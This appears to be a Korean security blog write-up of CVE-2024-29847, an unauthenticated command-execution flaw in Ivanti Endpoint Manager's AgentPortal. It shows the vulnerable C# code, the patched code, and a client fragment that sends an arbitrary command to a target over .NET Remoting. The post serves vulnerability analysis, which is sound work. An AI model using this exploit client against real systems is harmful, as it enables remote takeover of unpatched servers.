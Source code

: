 ```yaml
---
title: "[하루한줄] CVE-2024-29847 : Ivanti Endpoint Manager (EPM)의 데이터 검증 미흡으로 인한 Unauthenticated Command Execution 취약점"
author: j0ker
tags: [Ivanti, Endpoint Manager, EPM, AgentPortal, Deserialization, Command Execution, Remote Code Execution, RCE, j0ker]
categories: [1day1line]
date: 2024-09-14 19:00:00
cc: true
index_img: /img/1day1line.png
---
```


## URL

- [CVE-2024-29847 Deep Dive: Ivanti Endpoint Manager AgentPortal Deserialization of Untrusted Data Remote Code Execution Vulnerability](https://www.horizon3.ai/attack-research/attack-blogs/cve-2024-29847-deep-dive-ivanti-endpoint-manager-agentportal-deserialization-of-untrusted-data-remote-code-execution-vulnerability/)

## Target

- Ivanti EPM before 2022 SU6
- Ivanti EPM the 2024 September update

## Explain

AgentPortal.exe에는 .Net Remoting을 구현하기 위한 IAngentProtal 인터페이스가 정의되어 있습니다. IAgentPortal에 RunProgram 옵션을 확인해 보면 원격에서 전달된 명령어를 그대로 실행합니다.

```csharp
private static bool ProcessRunProgramAction(TaskData td, TaskData tdRef, string[] data)
{
	bool flag = true;
	int index = 0;
	foreach (string command in td._commands)
	{
		try {
			Process process = new Process();
			process.StartInfo.UseShellExecute = false;
			process.StartInfo.RedirextStadardOutput = true;
			process.StartInfo.FileName = td._target;
			process.StartInfo.Arguments = command; // [1]
			process.Start(); // [2]
```

위 코드 [1]에서 명령어를 가져와 [2]에서 그대로 명령어를 실행합니다. 이 때 command에 대해 아무런검증을 하지 않아 임의의 명령어를 실행할 수 있습니다.  

```csharp
private static bool ProcessRunProgramAction(TaskData td, TaskData tdRef, string[] data)
{
	bool flag = true;
	int index = 0;
	foreach (string command in td._commands)
	{
		try {
			Process process = new Process();
			process.StartInfo.UseShellExecute = false;
			process.StartInfo.RedirextStadardOutput = true;
			if (td._target != "ping.exe" && td._target != "tracert.exe")
				return false;
			process.StartInfo.FileName = td._target;
			process.StartInfo.Arguments = command;
			process.Start();
```

패치된 코드를 보면 위와 같이 ping이나 tracert가 아니면 실행하지 않도록 패치되었습니다.

```csharp
var ip = args[0];
var port = args[1];
var command = args[2];
string arguments = "";
if (args.Length > 3)
{
   arguments = string.Join(" ", args, 3, args.Length - 3);
}

string url = String.Format("tcp://{0}:{1}/LANDeskAgentPortal/LDSM", ip, port);
IAgentPortal agentPortal = (IAgentPortal)Activator.GetObject(typeof(IAgentPortal), url);

try
{
    Console.WriteLine("Sending request.");
    bool request_result = agentPortal.Request("localhost", IAgentPortalBase.ActionEnum.RunProgram, command,  arguments);
```

취약점이 간단한 만큼 익스플로잇도 간단합니다. 단순하게 실행할 명령어를 넣어 Agetnportal에 전송하면 명령어가 실행됩니다.

해당 취약점은 활용하기 쉽고 인증을 거치지 않기 때문에 CVSS3.1 9.8점을 받았습니다.

## Reference

- [horizon3ai/CVE-2024-29847](https://github.com/horizon3ai/CVE-2024-29847)
- [Ivanti Endpoint Manager AgentPortal Deserialization of Untrusted Data Remote Code Execution Vulnerability](https://www.zerodayinitiative.com/advisories/ZDI-24-1223/)